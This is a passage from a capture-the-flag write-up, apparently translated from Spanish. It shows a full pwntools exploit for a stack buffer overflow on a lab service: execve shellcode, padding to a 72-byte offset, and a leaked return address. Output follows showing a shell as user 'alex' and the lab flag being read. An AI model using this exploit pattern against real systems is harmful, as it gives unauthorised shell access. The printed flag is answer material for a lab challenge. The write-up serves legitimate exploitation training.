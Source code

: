   

The payload will do the following, it will send the shellcode and the junk to reach it `RIP`, with which `dirección`we will return to the beginning of our `input`where our is `shellcode`in this way it will be executed, we define and send the`payload`

```
payload = shellcode + junk + ret  

shell.sendlineafter(b"> ", payload)
shell.interactive()
```

  

Our `script`ending would be the following, when we execute it we obtain a shell like`alex`

```
#!/usr/bin/python3
from pwn import remote, p64

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"  

offset = 72
junk = b"A" * (offset - len(shellcode))

shell = remote("10.13.37.10", 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

ret = p64(int(shell.recvuntil(b"\n"),16))

payload = shellcode + junk + ret  

shell.sendlineafter(b"> ", payload)
shell.interactive()
```

  

```
❯ python3 exploit.py 
[+] Opening connection to 10.13.37.10 on port 9999: Done  
[*] Switching to interactive mode
$ whoami
alex
$
```

  

We are `alex`, in our personal user directory we can find the`flag`

```
$ cd /home/alex
$ ls -l
-rw-r--r-- 1 root root  659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root 1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root 7285 Dec 27  2017 exploitme.zip  
-rw-r--r-- 1 root root   27 Dec 28  2017 flag.txt
$ cat flag.txt
JET{0v3rfL0w_f0r_73h_lulz}
$
```
